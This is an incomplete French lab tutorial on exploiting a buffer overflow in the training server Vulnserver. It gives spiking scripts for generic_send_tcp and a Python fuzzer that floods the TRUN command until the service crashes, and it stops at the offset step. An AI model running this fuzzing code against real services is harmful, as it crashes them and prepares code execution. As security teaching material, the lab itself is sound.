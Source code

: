 # TP Buffer Overflow Ethical Hacking

Dans ce TP, nous allons voir comment exploiter une faille de type buffer overflow pour prendre le contrôle d'un programme. Nous allons utiliser un programme vulnérable que nous allons exploiter pour exécuter du code arbitraire.

1. [Setup](#setup)
2. [Spiking (trouver la vulnérabilité)](#spiking)
3. [Fuzzing (créer un PoC)](#fuzzing)
4. [Chercher l'offset](#offset)
5. [Overwrite EIP](#eip)
6. [Trouver un espace mémoire exécutable](#memory)
7. [Shellcode](#shellcode)

## 1. Setup <a name="setup"></a>

On installe un certain nombre d'éléments sur la machine victime. 
Premièrement, Vulnserver, qu'on fera écouter sur le port 9999.  
[vulnserver](https://github.com/stephenbradshaw/vulnserver)  

Ensuite, on installe Immunity Debugger sur la machine attaquée.  
[Immunity Debugger](https://www.immunityinc.com/)

Cela fait, on démarre une kali sur laquelle tout se passera.

## 2. Spiking (trouver la vulnérabilité) <a name="spiking"></a>

On va commencer par chercher la vulnérablilité dans le programme. Pour cela, on va utiliser le script `generic_send_tcp` fourni dans kali.

```spk 
fichier stats.spk


s_readline();
s_string("STATS");
s_string_variable("0");
```

on envoie:

```bash
generic_send_tcp ip_windows 9999 stats.spk 0 0
```


![fuzzing avec STATS](assets/1.png)


On voit que le programme ne crash pas, essayons de modifier la commande.

```spk
fichier stats.spk

s_readline();
s_string("TRUN ");
s_string_variable("0");
```

```bash
generic_send_tcp ip_windows 9999 stats.spk 0 0
```

Parfait ! On s'aperçoit que le programme crashe. On a donc trouvé la vulnérabilité.

![Programme crash](assets/2.png)

## 3. Fuzzing (créer un PoC) <a name="fuzzing"></a>

On va donc exploiter la faille déterminée précédemment. On va commencer par créer un script qui nous permettra de déterminer à combien de bytes le fuzzing a crash.

```py

import sys, socket
from time import sleep

buffer = "A" * 100

while True:
	try:
		s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
		s.connect(('10.0.2.15',9999))
		
		payload = "TRUN /.:/" + buffer

		s.send((payload.encode()))
		s.close()
		sleep(1)
		buffer = buffer + "A"*100

	except:
		print("Fuzzing crashed at %s bytes" % str(len(buffer)))
		sys.exit()

```

On lance le script et on attend que le programme crash.  
Ici, on voit que le programme crash à 2000 bytes.  

![Programme crash à 2000 bytes](assets/3.png)


On retourne sur notre machine victime et on lance vulnserver attaché à immunity debugger afin de déterminer l'offset pour voir où ça crashe.
![Immunity Debugger](assets/5.png) POUR NOUS 

## 4. Chercher l'offset <a name="offset"></a>


